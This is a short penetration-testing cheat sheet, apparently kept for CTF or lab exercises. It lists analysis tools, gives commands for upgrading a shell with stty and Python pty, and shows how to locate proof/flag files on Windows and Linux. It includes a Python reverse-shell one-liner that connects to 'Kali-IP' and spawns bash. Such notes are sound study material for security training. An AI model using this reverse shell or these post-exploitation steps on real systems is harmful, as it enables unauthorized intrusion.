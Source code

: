https://www.encryptomatic.com/viewer/ (view attachments .eml, .msg, winmail.dat)<br/>
https://github.com/williballenthin/python-evtx (view windows logs .evtx)<br/>
https://github.com/icsharpcode/ILSpy (open-source .NET assembly browser and decompiler)<br/>
https://gchq.github.io/CyberChef/ (Swiss Knife)<br/>
https://tio.run/# (debug)<br/>
Full interactive shell with zsh<br/>
https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html
<br/>

## Upgrade shell
```
ctrl + z
stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\n/'
stty raw -echo; fg
stty rows ROWS cols COLS
export TERM=xterm-256color
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```
<br/>
Can use script to upgrade shell<br/>

```
SHELL=/bin/bash script -q /dev/null
```
<br/>
Python upgrade shell<br/>

```
python -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```

<br/>
```
python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Kali-IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```
<br/>
## Flags
Windows:<br/>
```powershell
hostname && whoami.exe
cd C:\Users\Administrator
type "C:\Users\Administrator\Desktop\proof.txt"
ipconfig

#search flags
dir /s proof.txt
```

```powershell
Check for alternative data streams:
dir /a /r
powershell -c Get-Content -stream flag.txt root.txt
```
<br/>
Linux:<br/>
```
cd /root
hostname && whoami && cat /root/proof.txt && ip a
```
